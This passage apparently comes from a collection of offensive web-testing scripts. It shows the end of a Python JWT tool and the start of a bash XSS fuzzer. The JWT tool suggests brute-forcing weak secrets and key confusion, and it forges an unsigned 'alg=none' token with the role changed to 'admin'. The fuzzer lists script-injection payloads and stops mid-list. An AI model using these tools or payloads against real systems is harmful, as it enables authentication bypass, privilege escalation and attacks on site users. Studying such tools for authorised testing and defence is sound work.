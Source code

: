 ```python
        if header.get('alg') == 'HS256':
            print("  - Try weak secret brute force")
            print("  - Try key confusion (HS256 -> RS256)")
        
        if header.get('alg') == 'none':
            print("  - Already using 'none' algorithm!")
        else:
            print("  - Try 'none' algorithm attack")
        
        # Check for sensitive data
        if 'role' in payload or 'admin' in str(payload).lower():
            print("  - Try privilege escalation by modifying role/admin field")
        
    except Exception as e:
        print(f"[-] Error decoding JWT: {e}")

def generate_none_token(payload_dict):
    # Create token with alg=none
    header = base64.urlsafe_b64encode(b'{"alg":"none","typ":"JWT"}').decode().rstrip('=')
    payload = base64.urlsafe_b64encode(json.dumps(payload_dict).encode()).decode().rstrip('=')
    return f"{header}.{payload}."

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: ./jwt_tool.py <JWT_TOKEN>")
        sys.exit(1)
    
    token = sys.argv[1]
    analyze_jwt(token)
    
    print("\n[*] Generate 'none' algorithm token? (y/n)")
    if input().lower() == 'y':
        payload = jwt.decode(token, options={"verify_signature": False})
        payload['role'] = 'admin'  # Modify as needed
        none_token = generate_none_token(payload)
        print(f"\n[+] Token with alg=none:")
        print(none_token)
```

### Script 4: XSS Payload Fuzzer
```bash
#!/bin/bash
# xss_fuzzer.sh

TARGET=$1
PARAM=$2

if [ -z "$TARGET" ] || [ -z "$PARAM" ]; then
    echo "Usage: ./xss_fuzzer.sh http://target/search param_name"
    exit 1
fi

echo "[*] XSS Fuzzing $TARGET"

# Payloads
PAYLOADS=(
    "<script>alert(1)</script>"
    "<img src=x onerror=alert(1)>"
    "<svg onload=alert(1)>"
    "'-alert(1)-'"
    '"><script>alert(1)</script>'
    "<body onload=alert(1)>"
    "<iframe src=javascript:alert(1)>"
```